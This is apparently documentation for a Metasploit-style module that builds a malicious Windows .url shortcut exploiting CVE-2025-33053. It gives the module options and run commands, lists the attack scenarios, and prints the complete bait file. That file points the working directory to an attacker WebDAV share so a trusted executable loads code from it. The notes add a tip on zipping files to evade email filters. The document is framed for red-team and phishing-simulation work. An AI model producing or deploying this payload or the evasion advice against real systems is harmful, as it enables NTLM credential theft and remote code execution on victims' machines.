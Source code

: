 ## Overview

This module generates a malicious `.url` Internet Shortcut file that abuses CVE-2025-33053 — a vulnerability in how Windows handles `.url` files referencing remote UNC paths (e.g., WebDAV shares).

When the generated `.url` file is opened on a vulnerable Windows machine, it causes the system to connect to the specified UNC path, potentially triggering remote code execution depending on the environment and payload hosted at the target.

The shortcut uses a trusted executable (e.g., iediagcmd.exe) and sets its working directory to a UNC path controlled by the attacker.

## Module Information

**Module Name**: auxiliary/gather/cve_2025_33053  
**Authors**:  
- DevBuiHieu    

**Disclosure Date**: 2025-06-11  
**License**: MSF_LICENSE  
**Rank**: Normal

## Options

| Name        | Required | Description                                                             | Default Value                                                 |
|-------------|----------|-------------------------------------------------------------------------|---------------------------------------------------------------|
| IP          | yes      | The attacker IP address or domain used to generate the UNC path         | N/A                                                           |
| SHARE       | no       | WebDAV share name used in UNC path                                      | `webdav`                                                      |
| OUTFILE     | no       | Output filename of the generated `.url` file                            | `bait.url`                                                    |
| EXE         | no       | Trusted executable to trigger (LOLBAS technique)                        | `C:\Program Files\Internet Explorer\iediagcmd.exe`            |
| ICON        | no       | Icon file shown in `.url` properties                                    | `C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe`|
| INDEX       | no       | Icon index to use                                                       | `13`                                                          |
| MODIFIED    | no       | Timestamp-like hex value for `.url` metadata                            | `20F06BA06D07BD014D`                                          |

## Scenarios

This module can be used in phishing simulations or red team engagements where you want to:

- Deliver `.url` shortcut files that point to remote UNC WebDAV shares
- Trigger Windows to authenticate to your WebDAV server (NTLM leak)
- Leverage DLL hijacking or EXE sideloading via UNC path
- Test user awareness or email filtering against `.url` payloads

## Example Usage

```
use auxiliary/gather/cve_2025_33053
set IP 192.168.1.100
run
```

Optionally:

```
set SHARE payloads
set EXE "C:\Program Files\Internet Explorer\iediagcmd.exe"
set OUTFILE bait.url
run
```

## Output

Creates a file like:

```
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.100\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

## References

- https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept
- https://nvd.nist.gov/vuln/detail/CVE-2025-33053
- https://lolbas-project.github.io
- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053

## Notes

- WebDAV server must be accessible to the victim (port 80 open)
- Windows Defender or SmartScreen may block behavior in patched systems
- `.url` files may need to be zipped to bypass email filters
